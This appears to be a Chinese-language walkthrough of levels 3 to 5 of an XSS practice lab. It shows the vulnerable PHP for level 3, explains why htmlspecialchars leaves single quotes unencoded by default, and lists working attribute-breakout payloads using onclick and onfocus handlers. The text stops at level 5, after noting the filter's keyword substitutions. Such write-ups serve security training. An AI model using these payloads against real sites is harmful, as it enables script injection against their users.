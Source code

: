 ## level3

先随便尝试一下发现 `'> <script>alert("hi")</script> <'` 输入，输出有实体化变成了 `<input name="keyword" value="" &gt;="" &lt;script&gt;alert(&quot;hi&quot;)&lt;="" script&gt;="" &lt;''="">` 

后端代码

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>	
<input type=submit name=submit value=搜索 />
</form>
</center>";
?>
```

其中 `.htmlspecialchars` 把预定义的字符&、”、 ’、<、>转换为HTML实体，防止浏览器将其作为HTML元素。但是默认是只编码双引号的，而且单引号无论如何都不转义

```
& → &amp;
" → &quot;
' → '
< → &lt;
> → &gt;
```

换一种方式，用其他的事件。

onfocus事件：onfocus事件在元素获得焦点时触发，最常与 `<input>`、`<select>` 和 `<a>` 标签一起使用。`<input>` 标签是有输入框的，简单来说，onfocus事件就是当输入框被点击的时候，就会触发myFunction()函数，然后我们再配合javascript伪协议来执行javascript代码。比如 `<input type="text" onfocus="要调用的方法()">`

payload

```
'onclick='alert(1)
'onfocus='javascript:alert()
```

## level 4

和3同理，看前端是双引号闭合，换成双引号就行 

payload

```
"onfocus="javascript:alert()
```

## level 5

尝试输入，`on` 会被改成 `o_n`，`<script>` 会被替换成 `<scr_ipt>`。
